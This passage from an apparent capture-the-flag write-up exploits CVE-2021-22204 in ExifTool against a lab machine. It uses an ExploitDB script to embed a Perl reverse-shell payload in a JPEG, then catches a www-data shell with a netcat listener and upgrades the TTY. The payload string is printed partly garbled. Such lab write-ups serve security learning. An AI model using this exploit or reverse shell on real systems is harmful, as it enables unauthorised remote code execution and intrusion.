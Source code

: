 ```console
❯ python /usr/share/exploitdb/exploits/linux/local/50911.py
UNICORD Exploit for CVE-2021-22204

Usage:
  python3 exploit-CVE-2021-22204.py -c <command>
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
  python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -h

Options:
  -c    Custom command mode. Provide command to execute.
  -s    Reverse shell mode. Provide local IP and port.
  -i    Path to custom JPEG image. (Optional)
  -h    Show this help menu.
```

> This exploit needs djvulibre-bin and exiftool packages
{: .prompt-info}


In "help" we can see that using the `-s` option generates a payload with a reverse shell.

```console
❯ python /usr/share/exploitdb/exploits/linux/local/50911.py -s 10.10.16.10 4444

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));i.16.10')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}
RUNTIME: DONE - Exploit image written to 'image.jpg
```

In "netcat" which we would have previously left listening, we see how it has worked out and we will be inside as the user `www-data`.

```console
❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.11.140] 33878
/bin/sh: 0: can't access tty; job control turned off
$ 
```

> Interactive shell with `script /dev/null -c bash` and use `export TERM=xterm` to not be so restricted.
{: .prompt-tip}

### User Access

After doing a basic enumeration and not finding anything. I decided to use pspy64 to see what processes are running in the background and who is running them.
